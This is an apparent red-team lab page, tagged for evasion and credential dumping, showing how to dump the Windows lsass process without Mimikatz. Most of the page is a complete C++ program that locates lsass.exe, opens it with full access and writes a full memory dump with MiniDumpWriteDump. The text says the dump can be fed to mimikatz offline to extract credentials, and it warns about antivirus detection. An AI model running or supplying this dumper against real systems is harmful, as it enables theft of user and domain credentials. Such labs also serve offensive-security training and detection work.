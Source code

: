 ```yaml
---
description: 'Evasion, Credential Dumping'
---
```


# Dumping Lsass without Mimikatz with MiniDumpWriteDump

This lab explores multiple ways of how to write a simple `lsass` process dumper using `MiniDumpWriteDump`. Lsass process dumps created with `MiniDumpWriteDump` can be loaded to mimikatz offline, where credential materials could be extracted.

{% hint style="warning" %}
Note that you may get flagged by AVs/EDRs for reading lsass process memory.
{% endhint %}

## MiniDumpWriteDump to Disk

It's possible to use `MiniDumpWriteDump` API call to dump lsass.exe process memory.

### Code

{% code title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```
{% endcode %}
